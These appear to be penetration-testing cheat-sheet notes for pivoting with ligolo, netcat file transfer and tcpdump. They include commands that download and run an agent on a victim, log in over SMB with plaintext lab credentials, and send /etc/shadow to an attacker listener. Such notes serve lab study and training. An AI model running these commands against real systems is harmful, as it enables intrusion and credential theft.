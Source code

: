 ### ligolo
```bash
# on kali machine
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert

# on victim machine
iwr -uri http://192.168.45.202/agent.exe -outfile agent.exe
.\agent.exe -connect 192.168.45.202:11601 -ignore-cert

# back on kali(ligolo)
# first type session
session
# and type 1(or what you want to use)
1
# check network interface
ifconfig

# let's add routing table( on a new tab)
sudo ip route add 10.10.210.0/24 dev ligolo
(When you want to delete after, sudo ip route del 10.10.210.0/24 dev ligolo)
# confirm if it's added
ip route list

# now back to ligolo(kali)
# make sure we're on the right session by typing session 1
start

# check if it's working with netexec
netexec smb 10.10.210.148 -u web_svc -p Diamond1

# add listener (so the internal machine will shoot the connection through this port)
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
```

### netcat
```bash
# file transfer
1. fire up netcat listener on our attack kali machine
nc -lvnp 4444 > copiedNetcatShadow.txt
2. send the file from victim machine!
nc 192.168.48.3 4444 < /etc/shadow


```

### tcpdump
```bash
# filter port 53
sudo tcpdump -i ens192 udp port 53
```
